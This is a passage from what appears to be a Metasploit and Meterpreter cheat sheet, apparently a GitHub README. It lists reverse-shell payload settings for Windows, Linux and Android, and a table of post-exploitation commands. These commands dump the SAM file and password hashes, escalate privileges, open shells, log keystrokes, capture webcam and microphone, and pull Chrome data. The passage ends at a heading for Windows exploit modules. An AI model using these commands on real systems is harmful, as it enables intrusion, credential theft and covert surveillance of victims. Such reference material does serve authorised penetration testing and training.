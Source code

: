 `set payload windows/meterpreter/reverse_tcp`

#### Windows VNC Meterpreter payload

`set payload windows/vncinject/reverse_tcp`

`set ViewOnly false`

#### Linux Reverse Meterpreter payload

`set payload linux/meterpreter/reverse_tcp`

#### Android Reverse Meterpreter payload

`set payload android/meterpreter/reverse_tcp`

### Meterpreter Cheat Sheet

| Command | Description |
|---------|-------------|
| `upload file c:\\windows` | Upload file to Windows target |
| `download c:\\windows\\repair\\sam /tmp` | Download file from Windows target |
| `execute -f c:\\windows\temp\exploit.exe` | Run .exe on target |
| `execute -f cmd -c` | Creates new channel with cmd shell |
| `ps` | Show processes |
| `shell` | Get shell on the target |
| `getsystem` | Attempts privilege escalation on the target |
| `hashdump` | Dump the hashes on the target |
| `portfwd add –l 3389 –p 3389 –r target` | Create port forward to target machine |
| `portfwd delete –l 3389 –p 3389 –r target` | Delete port forward |
| `screenshot` | Capture screenshot of the target machine |
| `keyscan_start` | Start keylogger |
| `keyscan_dump` | Dump collected keystrokes |
| `webcam_snap` | Take webcam snapshot |
| `record_mic` | Record microphone |
| `enum_chrome` | Enumerate Chrome browser data |
## :computer: Common Metasploit Modules

### :closed_lock_with_key: Remote Windows Metasploit Modules (exploits)
